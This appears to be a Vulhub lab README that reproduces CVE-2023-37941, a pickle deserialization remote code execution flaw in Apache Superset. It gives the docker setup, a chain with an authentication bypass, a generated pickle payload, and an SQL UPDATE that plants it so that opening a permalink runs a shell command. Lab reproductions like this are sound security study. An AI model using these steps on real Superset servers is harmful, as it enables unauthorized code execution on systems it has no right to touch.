


# Apache Superset Python Pickle Deserialization Leads to RCE (CVE-2023-37941)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Superset is an open-source data exploration and visualization platform designed to be visual, intuitive, and interactive.

Apache Superset versions from 1.5 to 2.1.0 contain a Python Pickle deserialization vulnerability (CVE-2023-37941). The application uses Python's `pickle` package to store certain configuration data in the metadata database. An authenticated user with write access to the metadata database can insert a malicious pickle payload, which when deserialized by the application, leads to remote code execution on the Superset server.

When combined with [CVE-2023-27524](../CVE-2023-27524), an unauthenticated attacker can achieve remote code execution by first bypassing authentication and then exploiting the deserialization vulnerability.

References:

- <https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/>
- <https://github.com/Barroqueiro/CVE-2023-37941>
- <https://forum.butian.net/share/2458>

## Environment Setup

Execute the following command to start an Apache Superset 2.0.1 server:

```
docker compose up -d
```

After the server is started, you can access Superset at `http://your-ip:8088`. The default login credentials are admin/vulhub.

## Vulnerability Reproduction

The following steps assume you have already generate a valid session cookie and logged into the Dashboard through the [CVE-2023-27524](../CVE-2023-27524) vulnerability.

First, create a new "Dashboard" and generate a permalink by clicking the "Share" button, copy this permalink and we will use it later:



Then, create a new "Database" connection by following the steps below:

1. Navigate to "Data" → "Databases" in the Superset UI
2. Click "+ Database" to add a new database connection
3. Enter a name for the database (e.g., "SQLite")
4. For the SQLAlchemy URI, use: `sqlite+pysqlite:////app/superset_home/superset.db`
5. Expand "Advanced" and check "Expose in SQL Lab" and "Allow DML"
6. Save the database configuration




Then, use [CVE-2023-37941.py](CVE-2023-37941.py) to generate a malicious SQL command (the `-d` option can be `sqlite`, `mysql`, or `postgres`, means the database type of the Superset server, here is `sqlite` in Vulhub):

```shell
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=

[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

> [!NOTE]
> Because the `pickle` deserialization payload is different for different operating systems, you need to run the POC on Linux or MacOS.

Execute the generated SQL command in the SQL Lab:


Finally, trigger the deserialization by accessing the permalink:


As you can see, the `touch /tmp/success` command has been executed successfully.
